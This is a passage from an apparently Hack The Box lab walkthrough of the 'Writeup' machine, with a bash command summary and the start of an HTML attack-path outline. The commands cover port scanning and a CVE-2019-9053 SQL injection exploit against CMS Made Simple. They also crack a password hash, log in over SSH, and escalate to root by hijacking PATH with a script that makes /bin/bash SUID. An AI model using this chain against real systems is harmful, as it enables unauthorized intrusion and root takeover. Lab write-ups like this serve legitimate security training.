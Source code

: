             </li>
        </ul>
    </div>
</div>

---

## 📝 Command Summary

```bash
# Network reconnaissance
nmap -Pn -p- --min-rate=1000 -T4 10.10.10.138
nmap -p$ports -sC -sV 10.10.10.138

# SQLi exploitation
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt

# SSH connection
ssh jkr@10.10.10.138

# Process monitoring
chmod +x /tmp/pspy32
/tmp/pspy32

# PATH Hijacking
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
ssh jkr@10.10.10.138
/bin/bash -p
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar px-6 py-5 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-4 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Complete Attack Path
    </h3>
    <div class="space-y-4">
        <div class="flex items-start gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500 mt-1">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and Enumeration</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → robots.txt → /writeup/ → CMS Made Simple</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500 mt-1">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Exploitation and Initial Access</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">CVE-2019-9053 SQLi → Hash cracking → SSH jkr</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500 mt-1">3</div>
            <div class="flex-1">